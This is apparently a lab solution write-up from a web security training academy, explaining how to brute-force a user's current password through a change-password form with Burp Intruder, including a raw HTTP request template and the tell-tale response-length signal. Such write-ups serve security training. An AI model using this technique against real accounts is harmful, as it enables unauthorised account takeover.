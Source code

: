 # Lab: Password brute-force via password change
## Description



## Solution
1. Login using `wiener`
2. Submit the change password form with invalid data and send that request to Burp Intruder.
3. Use Burp Intruder to brute force the current-password field (using a valid authenticated session):
```yaml
POST /my-account/change-password HTTP/1.1
Host: ac4e1fa61fefe6d2c0ad2c0d007c00e8.web-security-academy.net
Cookie: session=ZN6X4LvbzjeYeI8HmbiZaKPaTcmn2Ivb
Content-Length: 94
Content-Type: application/x-www-form-urlencoded

username=carlos&current-password=§asdasdasdas§&new-password-1=qweqweqwe&new-password-2=zxczxczxc
```
4. Look for changes in the response lenght to find the correct password for Carlos.
